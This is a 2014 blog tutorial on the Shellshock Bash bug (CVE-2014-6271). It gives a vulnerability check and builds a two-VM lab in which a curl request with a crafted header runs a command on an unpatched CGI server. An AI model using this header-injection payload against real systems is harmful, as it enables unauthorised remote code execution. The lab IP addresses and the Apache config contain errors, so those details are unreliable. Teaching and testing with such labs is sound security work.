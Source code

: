 ```yaml
---
author: andrei
comments: true
date: 2014-09-25 22:15:29+00:00
layout: post
slug: test-shellshock-vulnerability
title: Shellshock proof of concept
excerpt: "Shellshock proof of concept"
categories:
- hack
- linux
---
```

{% include _toc.html %}

The vulnerability that was found on linux/mac systems affecting Bash: ShellShock. It looks like this is bigger than Heartbleed! It's been out there since 1993 and it will be very hard to get rid of it all over. In this post I will present how to check if your server is vulnerable. Also i am creating  a small setup to check what the bug can do, so buckle up!


<div style="text-align:center" markdown="1">
![shellshock vulnerability](/images/shellshock-300x168.jpg)
</div>




**Shellshock** is newly discovered vulnerability in software that's in computer systems we use everyday. It's kind of like Heartbleed, the Open/SSL bug that scared everyone senseless a few months ago and remains unpatched on thousands of systems. According to some experts, however, Shellshock could be way worse, and it's been around for decades. Shellshock affect bash, if exploited successfully an attacker could take control over the an unpatched linux system.

## How does it work?

The short story : Linux, like most of the operating systems use environment variable. Generally you can assign values to a environment variable, but also function definitions. The problem is that after defining the function, Bash continues to process shell commands resulting in a code injection attack.

## How to check if a server is vulnerable?

{% highlight bash %}
env x='() { :;}; echo vulnerable' bash -c /bin/true
{% endhighlight %}

Run the above command in a console. If you get "**vulnerable**" as output, that means that the server is exploitable.If the server is patched the following error message will be shown:
**bash: warning: x: ignoring function definition attempt**
** bash: error importing function definition for `x'**

## Set up the lab
	
  * provision 2 virtual machines


I have set up 2 Centos 5 VMs for this using VirtualBox and Vagrant. Below you can see my Vagrant config file:
{% highlight bash %}
vi Vagrantfile
VAGRANTFILE_API_VERSION = "2"
Vagrant.configure(VAGRANTFILE_API_VERSION) do |config|
config.vm.define "vm1" do |vm1|
vm1.vm.box = "centos5"
vm1.vm.hostname = "vm1"
vm1.vm.network "public_network"
end
config.vm.define "vm2" do |vm2|
vm2.vm.box = "centos5"
vm2.vm.hostname = "vm2"
vm2.vm.network "public_network"
end
config.vm.provider "virtualbox" do |vb|
vb.customize ["modifyvm", :id, "--memory", "512"]
end
end

vagrant up

vagrant ssh vm1
{% endhighlight %}

After running "vagrant up" you should have 2 VMs running with the following ips: vm1 192.168.1.149, vm2 192.168.1.150
The first VM will be the vulnerable server, and will be attacked from Vm2

	
  * Install apache and php-cgi on VM1


{% highlight bash %}

VM1# yum -y install httpd php-cgi

{% endhighlight %}

	
  * Configure apache on VM1. Add the following virtual host definition in your config file and start up apache


{% highlight bash %}

VM1# vi /etc/httpd/conf/httpd.conf

.........
ServerName VM1
DocumentRoot /var/www/html
ScriptAlias /cgi-bin/ "/var/www/cgi-bin/"
<Directory "/var/www/html">
Options +Indexes FollowSymLinks +ExecCGI
AddHandler php5-fastcgi .php
Action php5-fastcgi /cgi-bin/php.fastcgi
AllowOverride All
Order allow,deny
Allow from All
;
;

VM1# /etc/init.d/httpd start

{% endhighlight %}

After starting up Apache, make sure your server is not patched, so it has a vulnerable version of Bash. You can find a list with the vulnerable versions here: [CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) . Also you can try running the command posted at the beginning of this post.
Make sure you have the following folder created on VM1: /var/www/cgi-bin/ and set it's permissions to 755. Also create a small bash script named test.cgi and set permissions to it.

{% highlight bash %}

VM1# vi /var/www/cgi-bin/test.cgi

...

#!/bin/bash
echo
echo "test"

...

VM1# chmod 755 /var/www/cgi-bin/ -R

{% endhighlight %}



	
  * Start the attack from VM2


{% highlight bash %}

vagrant ssh vm2

VM2# curl --header "X: () { :; }; /bin/ping www.google.com" 192.168.1.159/cgi-bin/test.cgi

{% endhighlight %}

You can now check all icmp packets on your VM1. You will see lots of ping requests going out of VM1 to Google. Imagine this type of attack running on a larger scale, it would be a very efficient of DDOS attack.

{% highlight bash %}

VM1# tcpdump -i eth0 host 192.168.1.149 and icmp

{% endhighlight %}


## So what did we do ?


We send a simple /GET request to a apache cgi server and we have set a header value to a function definition and a bash command.  Of course you can run the attack  from a regular browser using a proxy (burp, fiddler,..) not necessarily from the command line. You just need to set a header to that value and the result will be the same.
As it turns out DHCP servers are also vulnerable to this bug. I'm not going to present that , but you can see how simple that can be done here: [https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)







